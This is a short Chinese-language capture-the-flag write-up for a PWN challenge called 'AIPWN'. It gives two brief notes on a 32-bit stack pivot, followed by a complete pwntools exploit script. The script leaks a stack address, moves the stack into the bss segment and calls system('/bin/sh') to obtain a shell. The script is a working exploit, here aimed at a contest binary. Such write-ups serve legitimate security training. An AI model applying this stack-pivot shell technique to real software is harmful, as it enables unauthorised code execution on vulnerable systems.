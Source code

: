 ```yaml
---
title: 广东卫生网赛 PWN
date: '2025-04-11 18:23:49'
updated: '2025-06-06 13:42:32'
---
```

## AIPWN
32 位栈迁移

### 重点
1. 32 位传参是从栈上取参数，得在栈上放字符串地址
2. 栈迁移到 bss 段前面调用到 system 之后会报段错误，是因为在进去 system 之后会 pop 一堆，让 rsp 从 bss 段挪到了前面的 data 段或者 got 表，没有写权限就报错了

exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=process("./AIPWN")
# link=remote('36.212.14.99',27719)
elf=ELF("./AIPWN")

gdb.attach(link,'b *0x8048631')
pause()

bss_base=0x804A038+0x800
# pop_edi_ebp=0x80486ca
system=elf.plt["system"]
call_system=0x8048650
leave_ret=0x080484a5

payload=b'a'*0x38
link.recvuntil(b'world')
link.send(payload)

ebp_addr=u32(link.recvuntil('\xff')[-4:].ljust(4,b'\x00'))-0x28
print('ebpaddr='+hex(ebp_addr))

link.recvuntil(b'getshell')
payload=b'/bin/sh\x00'+b'b'*0x28+p32(bss_base)+p32(0x80485A7)
link.send(payload)

payload=b'a'*0x38
link.send(payload)

link.recvuntil(b'getshell')
payload=p32(call_system)+p32(0x804a810)+b'/bin/sh\x00'+b'a'*0x20+p32(bss_base-0x34)+p32(leave_ret)
link.send(payload)

link.interactive()
```

